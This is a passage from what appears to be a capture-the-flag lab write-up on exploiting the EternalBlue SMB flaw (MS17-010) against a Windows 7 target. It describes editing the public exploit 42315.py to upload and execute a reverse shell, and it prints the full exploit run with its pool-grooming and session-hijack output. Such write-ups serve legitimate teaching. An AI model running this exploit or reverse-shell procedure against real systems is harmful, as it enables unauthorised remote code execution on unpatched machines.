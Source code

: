 At this point we have to edit the exploit file. There are plenty of resources on the internet explaining how to do that. One good resource is this one:
> https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/

Substantially, what we are doing is to enable a function named **service_exec()** that will connect to the target and upload the reverse shell we created. After that, it will try to execute it.

If everything goes well, we will have a connection back from the target!

At this point we have to set up a listener on our machine and launch the exploit which will connect back to us:

```
python 42315.py 10.10.10.40

Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
No transaction struct in leak data
leak failed... try again
CONNECTION: 0xfffffa8001f4f170
SESSION: 0xfffff8a001fb96a0
FLINK: 0xfffff8a0029645f0
InParam: 0xfffff8a00120b15c
MID: 0x2405
unexpected alignment, diff: 0x17585f0
leak failed... try again
CONNECTION: 0xfffffa8001f4f170
SESSION: 0xfffff8a001fb96a0
FLINK: 0xfffff8a0026b0048
InParam: 0xfffff8a00121715c
MID: 0x2402
unexpected alignment, diff: 0x1498048
leak failed... try again
CONNECTION: 0xfffffa8001f4f170
SESSION: 0xfffff8a001fb96a0
FLINK: 0xfffff8a001229088
InParam: 0xfffff8a00122315c
MID: 0x2503
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\shell.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service MYBp.....
Starting service MYBp.....
The NETBIOS connection with the remote host timed out.
Removing service MYBp.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
